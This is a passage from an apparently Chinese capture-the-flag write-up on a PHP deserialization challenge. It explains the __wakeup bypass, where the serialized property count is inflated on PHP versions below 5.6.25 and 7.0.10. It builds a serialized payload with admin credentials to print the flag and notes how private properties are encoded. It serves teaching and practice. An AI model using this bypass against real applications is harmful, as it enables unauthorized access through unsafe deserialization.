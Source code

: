 ```php
    }
}
```

发现析构方法中，如果密码=100&用户名=admin就会输出flag

我们在 index.php 中可以传参：

```php
<?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
    ?>
```

意思就是需要我们传递一个序列化的对象。但是我们知道，**反序列化之前会调用 __wakeup() 方法**，这会导致admin=guest，这样就不能输出flag了。

我们如何绕过 __wakeup() 方法呢？

<img src="https://s2.loli.net/2022/12/29/tpcy6Bzr1DPOAme.png" alt="image-20221229192436640" style="zoom:33%;" />

由于当前 php 版本是 5.3.3 。存在 wakeup 漏洞：

> 漏洞影响版本：
>
> PHP5 < 5.6.25
>
> PHP7 < 7.0.10
>
> 漏洞产生原因：
>
> 如果存在__wakeup方法，调用 unserilize() 方法前则先调用__wakeup方法，但是序列化字符串中表示对象属性个数的值大于 真实的属性个数时会跳过__wakeup的执行 

于是我们可以构造序列化对象：

```php
<?php
class Name{
    private $username = 'admin';
    private $password = '100';
}
echo serialize(new Name());
```

```php
O:4:"Name":3:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";s:3:"100";}
```

注意：要将属性值改为大于真实属性个数

![image-20221229193457209](https://s2.loli.net/2022/12/29/7K6QJqIgtGBWnHa.png)

然后我们传参发现，居然没有用！

仔细观察payload发现，属性的长度与真实长度好像对不上，于是去查阅资料得知：

> #### PHP——serialize()序列化类变量public、protected、private的区别
>
> public无标记，变量名不变，长度不变: s:2:"op";i:2;
> **protected**在变量名前添加标记%00`*`%00，长度+3: s:5:"%00*%00op";i:2;
> **private**在变量名前添加%00(classname)%00，长度+2+类名长度: s:17:"%00FileHandler_Z%00op";i:2;
